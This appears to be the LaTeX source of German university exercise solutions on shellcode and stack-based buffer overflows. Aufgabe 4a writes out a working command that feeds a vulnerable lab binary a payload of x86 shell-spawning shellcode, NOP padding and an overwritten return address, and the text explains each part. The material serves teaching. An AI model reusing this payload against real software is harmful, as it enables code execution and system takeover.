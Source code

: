 \documentclass[]{scrreprt}
\begin{document}
\section*{Aufgabe 3: Shellcode}
\section*{Aufgabe 4: Stack-Based Buffer Overflow}
\subsection*{a)}
Das Programm ''basic\_overflow'' muss folgendermaßen in der Shell eingegeben werden:
./basic\_overflow \$(python -c 'print "$\backslash$x31$\backslash$xc9$\backslash$xf7$\backslash$xe1$\backslash$x51$\backslash$x68$\backslash$x64$\backslash$x61$\backslash$x73$\backslash$x68$\backslash$x68$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x68$\backslash$x2f$\backslash$x62$\backslash$x69$\backslash$x6e$\backslash$x89$\backslash$xe3$\backslash$xb0$\backslash$x0b$\backslash$xcd$\backslash$x80" + "$\backslash$x90"*86 + "$\backslash$xcc$\backslash$xce$\backslash$xff$\backslash$xff"')
Dabei ist das \$-Zeichen zu beachten, welches eine Subshell aufruft, womit man in einem Shellbefehl einen weiteren Befehl ausführen kann.
Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt.
\section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
\subsection*{a)}
\begin{figure}[h]
	\centering
	\texttt{[image: figure/5a]} %
	\caption{Stackframes}
\end{figure}
\end{document}
